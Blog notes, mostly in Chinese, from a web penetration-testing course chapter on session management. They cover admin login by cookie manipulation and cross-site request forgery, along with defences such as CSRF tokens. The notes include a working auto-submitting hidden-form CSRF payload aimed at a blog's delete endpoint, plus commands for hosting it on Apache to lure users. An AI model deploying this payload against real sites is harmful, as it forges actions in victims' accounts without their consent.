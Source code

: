 ```yaml
---
title: Insecure Session Management
date: 2017-11-27 12:00:00
tags:
categories: Software
thumbnail: https://images.unsplash.com/photo-1556017069-cb3fe229ab46?ixlib=rb-1.2.1&q=80&fm=jpg&crop=entropy&cs=tinysrgb&w=1080&fit=max&ixid=eyJhcHBfaWQiOjF9
---
```

 
 <!-- more -->
# Learn Website Hacking / Penetration Testing From Scratch (15)

> [Ch15] Insecure Session Management
> Udemy 線上課程學習筆記

https://www.udemy.com/learn-website-hacking-penetration-testing-from-scratch/learn/v4/

## Logging In As Admin Without a Password By Manipulating Cookies

* `FireFox` CookieManager+
* `Chrome` EditThisCookie

## Discovering Cross Site Request Forgery Vulnerabilities (CSRF)

> * Request are not validated at the server side.
> * Server does not check if the user generated the request.
> * Requests can be forged and sent to users to make them do things they don't intend to do such as changing their password

建立一個Local端的假表單，action指向原網站，即可利用使用者目前仍有效的Session或Cookie進行變更密碼的動作

## Exploiting CSRF Vulnerabilities To Change Admin Password Using a HTML File

承上一章節，預設好要變更的value，加上javascript，使用者開啟檔案就會自動送出表單。

```javascript=
document.getElementById('form1').submit();
```

## Exploiting CSRF Vulnerabilities To Change Admin Password Using Link

承上一章節，將製作好的html檔案放上網路空間。將連結送給使用者，只用者只要點擊url就會自動送出表單。

put the csrf.html file to `Kali Linux` hosted by apache.

```shell=
cp Desktop/csrf.html /var/www/html
service apache2 start
```

browse the `xxx.xxx.xxx/csrf.html`

## [Security] The Right Way To Prevent CSRF Vulnerabilities

1. 再次驗證舊密碼
2. CSRF Token

## 以下補充

### 用自己的一句話解釋CSRF

> 在使用者非自願的情況下，用使用者的身份(合法)送出偽造(非法)的請求。

### 所謂的Cross Site

#### Cookie

### CSRF攻擊方式

1. 建立假的form，指定action post到目標網址

```html
<iframe style="display:none" name="csrf-frame"></iframe>
<form method='POST' action='https://small-min.blog.com/delete' target="csrf-frame" id="csrf-form">
  <input type='hidden' name='id' value='3'>
  <input type='submit' value='submit'>
</form>
<script>document.getElementById("csrf-form").submit()</script>
```

### 如何避免

#### ASP.NET

![](https://i.imgur.com/arv3DyV.png)

![](https://i.imgur.com/6O5jDEp.png)

#### .NET CORE

https://docs.microsoft.com/zh-tw/aspnet/core/security/anti-request-forgery

CSRF token [anti forgrey token]

## 參考

[OWASP](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF))
[讓我們來談談 CSRF](http://blog.techbridge.cc/2017/02/25/csrf-introduction/)
[跨站請求偽造](https://zh.wikipedia.org/zh-tw/%E8%B7%A8%E7%AB%99%E8%AB%8B%E6%B1%82%E5%81%BD%E9%80%A0)